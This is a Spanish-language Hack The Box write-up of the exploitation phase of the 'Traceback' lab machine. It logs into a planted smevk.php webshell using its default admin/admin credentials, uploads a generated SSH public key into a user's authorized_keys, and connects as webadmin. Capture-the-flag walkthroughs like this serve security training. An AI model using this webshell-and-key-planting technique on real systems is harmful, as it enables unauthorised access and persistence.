 


## Explotación

Nos dirigimos a `http://traceback.htb/smevk.php` y hay un disponible una página de login. Para las credenciales, nombre del usuario y contraseña, vamos al código fuente de la webshell [smevk.php](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)

```php
$UserName = "admin";                                      
$auth_pass = "admin";                                  
```

Una vez ingresemos al sistema, encontramos un panel interactivo en el cual podemos revisar los archivos y directorios.

En el directorio `/home/webadmin` encontramos una carpeta llamada `.ssh` que tiene permisos para lectura y escritura. Así que vamos a generar un par de llaves SSH con el siguiente comando

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh-keygen -t rsa -f ssh-keys
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:
The key fingerprint is:
SHA256:C6q88E5F8SemBH1cVGq9zoZWMJiTZmJ3TRQg0OO2Jh0 root@parrot
The key randomart image is:
+---[RSA 3072]----+
|  ..o+.o++=.     |
|   ..o== =       |
|    =o%.B o      |
|   + BE* o .     |
|    oo.oS o      |
|   ...+. *       |
|. . .o  + +      |
| = .   . .       |
| .*.             |
+----[SHA256]-----+
```

Ahora, vamos a subir la llave pública que acabamos de generar al sistema, mediante la opción de cargar archivos en la carpeta `/home/webadmin/.ssh` y luego movemos el archivo a la carpeta `authorized_keys` con el siguiente comando

```bash
mv ssh-keys.pub authorized_keys
```

Nos conectamos por SSH a la máquina  usando nuestra llave privada

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh -i ssh-keys webadmin@10.10.10.181

#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'ssh-keys': 

Welcome to Xh4H land 

Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ pwd /home/webadmin
```
